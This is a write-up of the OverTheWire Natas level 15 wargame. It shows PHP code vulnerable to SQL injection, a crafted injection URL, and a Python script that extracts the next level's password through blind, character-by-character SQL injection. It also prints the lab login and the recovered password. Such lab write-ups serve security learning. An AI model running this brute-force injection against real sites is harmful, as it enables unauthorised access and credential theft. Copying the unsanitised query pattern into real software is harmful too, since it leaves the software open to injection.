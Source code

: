 Now it looks like we have a simply field to check whether or not a username exists in a database. Let's take a look at the code for this.

```php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
}
```
So it looks like the MySQL table is created with both the username and password having a limit of 32 characters. From immediate inspection, there doesn't appear to be a way directly evident in the code to find the password, as there was last time.

My initial thought was to try to do a simple injection the same as last time by setting username and password all in the username parameter for the query, like so: `http://natas15.natas.labs.overthewire.org/?debug&username=natas16%22%20and%20password=%221%27%20or%20%271%27%20=%20%221`, which results in `Executing query: SELECT * from users where username="natas16" and password="1' or '1' = "1"
Error in query.` No luck there.

Time to bruteforce it. After a bit of URL crafting, I came up with `?debug&username=natas16" and password LIKE BINARY "*LETTERS TO CHECK HERE*%`. Essentially, this will let me know one character at a time which characters of the password are correct. I tried finding a way to use curl to brute force this, but unfortunately I was encountering errors and just decided to stick with the easy option of Python.

In this folder is the python file I used, but for the sake of having it in this write-up, here's the code:
```python
import requests

CHARACTER_LIST = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
bf = ''

for i in range(1, 33):
    for char in CHARACTER_LIST:
        r = requests.get("http://natas15.natas.labs.overthewire.org/?debug&username=natas16%22%20and%20password%20LIKE%20BINARY%20%22" + bf + char + "%", auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'))
        if 'user exists' in r.text:
            bf = bf + char
            break
    print bf
```

The program basically just gets the password one character at a time until I have the full 32 character password.

Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
